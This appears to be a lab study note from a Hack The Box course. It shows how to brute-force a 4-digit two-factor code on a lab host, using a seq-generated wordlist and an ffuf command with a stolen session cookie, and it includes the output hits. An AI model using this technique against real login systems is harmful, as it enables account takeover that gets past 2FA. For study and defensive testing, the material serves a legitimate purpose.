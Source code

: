 ```yaml
---
title: d-Bruteforce 2FA Codes
draft: false
tags:
  - 2fa
  - ffuf
---
```

Two-factor authentication (2FA) provides an additional layer of security to protect user accounts from unauthorized access. Typically, this is achieved by combining knowledge-based authentication (password) with ownership-based authentication (the 2FA device).

## Attacking 2FA

One of the most common 2FA implementations relies on the user's password and a time-based one-time password (TOTP) provided to the user's smartphone by an authenticator app or via SMS.

These TOTPs typically consist only of digits and if it not long enough we can potentially bruteforce it.

e.g Assume we obtained valid credentials (`admin:admin`) but there is 2FA, requiring 4-digit OTP.

Since 4-digit OTP has only 10,000 possible variations, we can easily guess the codes. 

We will use `ffuf` for this purpose.

We will first generate a wordlist of 4-digit numbers:

```shell-session
jadu101@htb[/htb]$ seq -w 0 9999 > tokens.txt
```


Let's specify session token in the `PHPSESSID` cookie to associate the TOTP with our authenticated session.

```shell-session
jadu101@htb[/htb]$ ffuf -w ./tokens.txt -u http://bf_2fa.htb/2fa.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -b "PHPSESSID=fpfcm5b8dh1ibfa7idg0he7l93" -d "otp=FUZZ" -fr "Invalid 2FA Code"

<SNIP>
[Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 648ms]
    * FUZZ: 6513
[Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 635ms]
    * FUZZ: 6514

<SNIP>
[Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 1ms]
    * FUZZ: 9999
```

After we have a hit, corresponding PHPSESSID will be automatically authenticated thus we can access pages like `admin.php`.